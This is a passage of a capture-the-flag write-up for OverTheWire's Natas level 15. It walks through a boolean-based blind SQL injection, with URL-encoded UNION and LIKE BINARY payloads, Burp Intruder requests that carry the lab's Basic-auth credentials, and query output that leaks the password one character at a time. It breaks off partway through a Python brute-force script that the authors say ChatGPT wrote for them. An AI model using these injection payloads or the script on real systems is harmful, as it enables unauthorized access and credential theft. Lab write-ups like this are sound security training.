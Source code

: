 True as it should!

Let's try a random string that should be false

```http
GET /index.php?debug&username=a1d2m3i4n5"+union+select+1,2+from+users+where+username%3d'natas16'+and+password+like+'1234576qwerty%25'%3b--+- HTTP/1.1
...
```

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2 from users where username='natas16' and password like '1234576qwerty%';-- -"

This user doesn't exist.
```

We got a problem: LIKE is not case sensitive, We need to add BINARY.

We're doing this in intrruder to find the first character:
```http
GET /index.php?debug&username=a1d2m3i4n5"+union+select+1,2+from+users+where+username%3d'natas16'+and+password+like+binary+'§a§%25'%3b--+- HTTP/1.1
Host: natas15.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==
Connection: keep-alive
Referer: http://natas15.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


```
Sniper mode with a list of 0-9 a-z A-Z

```
Executing query: SELECT * from users where username="a1d2m3i4n5" union select 1,2 from users where username='natas16' and password like binary 'h%';-- -"

This user exists.
```

First letter is a lower case h.

We got a few letters this way, then it was time for python.
Instead of spending all stream of making a general script for this kind of thing manually we asked chatgpt to make one, giving it the request from intruder and a correct response. We also asked it to "add a test for if we have found the full password using = instead of like and if the password was not finished, look again for the next letter... and so on"

After just failing once the script (15.py) worked:
```python
import requests
from string import ascii_letters, digits

# URL and headers
url = "http://natas15.natas.labs.overthewire.org/index.php?debug"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")  # Update with correct credentials
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
```